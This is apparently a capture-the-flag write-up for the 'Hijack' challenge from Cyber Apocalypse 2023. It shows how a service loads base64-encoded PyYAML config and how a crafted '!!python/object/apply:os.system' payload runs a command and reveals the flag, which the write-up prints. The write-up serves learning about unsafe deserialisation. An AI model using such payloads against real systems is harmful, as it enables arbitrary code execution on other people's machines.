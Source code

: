 # Cyber Apocalypse 2023

## Hijack

> The security of the alien spacecrafts did not prove very robust, and you have gained access to an interface allowing you to upload a new configuration to their ship's Thermal Control System. Can you take advantage of the situation without raising any suspicion?
>
>  README Author: [D13David](https://github.com/D13David)
>

Tags: _misc_

## Solution
When connecting to the container we are presented with an small UI:
```bash
$ nc 138.68.162.218 32738

<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
>
```

First thing is to test what we can do. Create config let's us enter some values and returns the configuration.

```bash
> 1

- Creating new config -
Temperature units (F/C/K): F
Propulsion Components Target Temperature : 1
Solar Array Target Temperature : 1
1Infrared Spectrometers Target Temperature :
Auto Calibration (ON/OFF) : on

Serialized config: ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICcxJywgYXV0b19jYWxpYnJhdGlvbjogJ29uJywKICBwcm9wdWxzaW9uX3RlbXA6ICcxJywgc29sYXJfYXJyYXlfdGVtcDogJzEnLCB1bml0czogRn0K
Uploading to ship...
```

When decoding the base64 string we get some PyYaml.
```bash
$ echo "ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICcxJywgYXV0b19jYWxpYnJhdGlvbjogJ29uJywKICBwcm9wdWxzaW9uX3RlbXA6ICcxJywgc29sYXJfYXJyYXlfdGVtcDogJzEnLCB1bml0czogRn0K" | base64 -d
!!python/object:__main__.Config {IR_spectrometer_temp: '1', auto_calibration: 'on',
  propulsion_temp: '1', solar_array_temp: '1', units: F}
```

That looks interesting since we can probably pack our own payload into it.

```bash
echo -n '!!python/object/apply:os.system ["cat flag.txt"]' | base64
ISFweXRob24vb2JqZWN0L2FwcGx5Om9zLnN5c3RlbSBbImNhdCBmbGFnLnR4dCJd
```

And sure enough, when uploading the payload...
```bash
<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
> 2

Serialized config to load: ISFweXRob24vb2JqZWN0L2FwcGx5Om9zLnN5c3RlbSBbImNhdCBmbGFnLnR4dCJd
HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}
** Success **
Uploading to ship...
```

... we are presented with the flag `HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}`.